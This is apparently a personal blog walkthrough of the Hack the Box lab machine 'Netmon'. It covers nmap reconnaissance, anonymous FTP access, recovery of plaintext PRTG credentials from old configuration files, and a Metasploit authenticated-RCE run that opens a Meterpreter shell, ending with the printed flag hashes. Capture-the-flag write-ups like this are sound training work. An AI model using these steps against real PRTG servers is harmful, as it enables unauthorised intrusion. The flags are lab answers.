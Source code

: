 ```yaml
---
title: Netmon - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Netmon.png
---
```

![Image](/assets/Netmon.png)

Netmon serves as a brilliant example of being very intentional and simple when looking for vectors to enumerate and services to exploit. I spent time going down a rabbit hole, albeit a shallow one, but the lesson was learned. It's also important to take very copious notes in these reports here, so from now on these will be very fleshed out.

### Reconnaissance
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-04 15:39 EDT
Nmap scan report for 10.10.10.152
Host is up (0.12s latency).
Not shown: 52259 closed tcp ports (reset), 13263 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-04T19:41:21
|_  start_date: 2024-09-04T19:38:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 120.10 seconds

```

The scan gives us quite a bit. We've got access to FTP shares, a PRTG Monitor version 18.1.37.13946, and SMB. In hindsight, it's very simple and quite concise, so the trained eye merely comes from practice.

### Service Enumeration

Take the path of least resistance. Be water. Let's fucking go, yeah? Starting with FTP is the sensical choice, with anonymous login allowed, we're privy to quite a bit.

Initially, I'd completely skipped this vector... Dunno why.  `ftp anonymous@10.10.10.152` will yield access. Now, from now on, where applicable, `ls -la` takes precedence. This shows hidden directories, if any. 

```
┌──(root㉿kali)-[/home/li0t]
└─# ftp anonymous@10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
229 Entering Extended Passive Mode (|||49858|)
150 Opening ASCII mode data connection.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
09-06-24  05:49AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
12-15-21  10:40AM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.

```

We get a lot here, but we don't know what it all means yet. Easiest path leads us down through public users to get our user flag.

```
ftp> more user.txt
0526c34b6f2df988e87b2d8d1abc7b4b
```

Theres nothing much else here in the `/Users` directory, and we cannot access administrator level ones without higher privileges. We'll come back here soon. Let's see what the web server has to offer.

![Image](/assets/Screenshot 2024-09-04 at 3.45.47 PM.png)

Navigating to the website, we're met with a portal for this PRTG Network Monitor, and upon some research looking for version information and credentials, we find this interesting tidbits.

![Image](/assets/Screenshot 2024-09-06 at 6.35.25 AM.png)
![Image](/assets/Screenshot 2024-09-06 at 6.29.25 AM.png)
![Image](/assets/Screenshot 2024-09-06 at 6.14.17 AM.png)

So, it looks like this version of the software keeps plaintext credentials in an old configuration file, and given the path in the photo, it looks like we can access through FTP. Navigating to `/ProgramData/Paessler/PRTG\ Network\ Monitor/` gives us access to the old configuration files, where we can find the credentials needed.

![Image](/assets/Screenshot 2024-09-06 at 6.28.55 AM.png)

### Initial Access

Now, once found, we can use searchsploit to check if there's a MSF module for the RCE referenced above. 

```
┌──(root㉿kali)-[/home/li0t]
└─# searchsploit PRTG
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
PRTG Network Monitor 18.2.38 - (Authentica | windows/webapps/46527.sh
PRTG Network Monitor 20.4.63.1412 - 'maps' | windows/webapps/49156.txt
PRTG Network Monitor < 18.1.39.1648 - Stac | windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-S | java/webapps/34108.txt
------------------------------------------- --------------------------------
```

Looks like we're in business. I'm going to use Metasploit for now because I'm pressed on time, but I'll come back through (for all MSF ones) and do it manually as well.

```
msf6 > search PRTG

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce_cve_2023_32781  2023-08-09       excellent  Yes    PRTG CVE-2023-32781 Authenticated RCE
   1    \_ target: Windows_Fetch                                  .                .          .      .
   2    \_ target: Windows_CMDStager                              .                .          .      .
   3  exploit/windows/http/prtg_authenticated_rce                 2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE

```

Looks like 3 is what we want. I'll also set to a `bind_tcp` payload, as reverse has been throwing errors for me. Also, the box was published in 2019, and seeing as the password houses 2018, we can give both a shot for variance.

![Image](/assets/Screenshot 2024-09-06 at 6.40.30 AM.png)

Let it rip, bear.

```
msf6 exploit(windows/http/prtg_authenticated_rce) > run

[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Started bind TCP handler against 10.10.10.152:4444
[*] Sending stage (176198 bytes) to 10.10.10.152
[*] Meterpreter session 1 opened (10.10.14.3:37941 -> 10.10.10.152:4444) at 2024-09-06 06:40:53 -0400

meterpreter > 
```

### Post-Exploitation

Navigate to the administrator file that we didn't have access to before, and you'll get your flag.

```
meterpreter > cat root.txt 
45d31e16cd35bfb0311d0b7f3207e644
```
#easy #windows #msfconsole 

